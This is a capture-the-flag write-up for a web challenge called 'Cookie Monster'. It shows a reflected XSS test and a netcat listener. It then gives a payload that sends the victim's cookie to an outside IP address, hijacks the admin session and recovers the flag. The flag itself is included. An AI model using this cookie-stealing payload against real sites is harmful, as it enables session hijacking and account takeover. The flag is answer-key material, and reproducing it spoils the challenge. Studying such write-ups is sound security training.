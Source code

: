 # Cookie Monster #

**Category:**	Web Security  
**Points:**	200

**Prompt:** 
* Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:46846.

**Hints:** 
* The admin can see the flag on the admin page.
* You can control the value so select all you want.
* If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

**Solution:**
* Use burp to test XSS
* Set up the proxy and change the ingredient variable to:
```
<script>alert("XSS");</script>
```
![solution1](./CookieMonster1.png)
* It works.  Now lets insert a script to have cookie monster call out to a our listening netcat server:
```
nc -nvlp 80
```
```
<script>document.location='http://220.120.126.234/grab.cgi?'%2bdocument.cookie;</script>
```
* When we run this through burp, it reflects back to our browser and executes the attack against myself.  See my cookies below:
    * ![solution2](./CookieMonster2.png)
* However, we have the encoded url: http://challenge.acictf.com:54853/cookie/ed508ac3-73c4-4141-bf20-bec33555aebb
* That sent it.  If we can send this to cookie monster, we can get his cookies.
    * Start Burp intercept, click on "submit for approval by cookie monster", change the value of the parameter to "ed508ac3-73c4-4141-bf20-bec33555aebb" from the previous link, and BAM!
    * ![solution3](./CookieMonster3.png)
* Now that we have cookie monster's session cookie, we can change our value to his and log into the admin page for the flag
* ![solution4](./CookieMonster4.png)
* ACI{c3222db2048809db07fb62db13b}

